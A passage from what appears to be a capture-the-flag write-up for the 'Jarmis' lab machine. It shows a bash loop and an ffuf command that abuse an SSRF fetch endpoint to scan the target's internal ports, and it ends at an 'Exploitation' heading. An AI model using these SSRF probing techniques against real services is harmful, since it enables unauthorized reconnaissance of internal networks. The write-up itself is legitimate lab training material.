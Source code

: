 ```bash
END_PORT=65535 

for port in $(seq $START_PORT $END_PORT); do

  URL="$BASE_URL?endpoint=http://localhost:$port"


  RESPONSE=$(curl -s "$URL" -H 'accept: application/json' | jq -r '.endpoint')


  if [[ "$RESPONSE" == "127.0.0.1:$port" ]]; then
    echo "Port $port is open"
  fi
done

```
- So I used Fuff to scan 
```bash
ffuf -u 'http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:FUZZ' -w <(seq 1 65535) -t 60 -fr '"endpoint":"null"'
```
- The results looks interesting for a Linux box
```

22                      [Status: 200, Size: 117, Words: 1, Lines: 1, Duration: 446ms]
80                      [Status: 200, Size: 117, Words: 1, Lines: 1, Duration: 333ms]
5986                    [Status: 200, Size: 119, Words: 1, Lines: 1, Duration: 342ms]
8001                    [Status: 200, Size: 119, Words: 1, Lines: 1, Duration: 368ms]
33028                   [Status: 200, Size: 120, Words: 1, Lines: 1, Duration: 292ms]
55394                   [Status: 200, Size: 120, Words: 1, Lines: 1, Duration: 332ms]
```
- Port `5986` and `5985` seems interesting particularly because in windows those ports are used by WinRM. 
- In the ffuf scan I didn't get port `5985` but I tested it manually. It took me 20 seconds to respond may be that's why ffuf marked it as closed but anyway this port seems interesting.
```
❯ curl 'http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:5985' -H 'accept: application/json' | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   119  100   119    0     0      5      0  0:00:23  0:00:20  0:00:03    27
{
  "sig": "00000000000000000000000000000000000000000000000000000000000000",
  "endpoint": "127.0.0.1:5985",
  "note": "localhost"
}
```
![it-starts](https://media1.tenor.com/m/oGkf9b9L9FsAAAAC/cbb2-cbbus2.gif)
## Exploitation
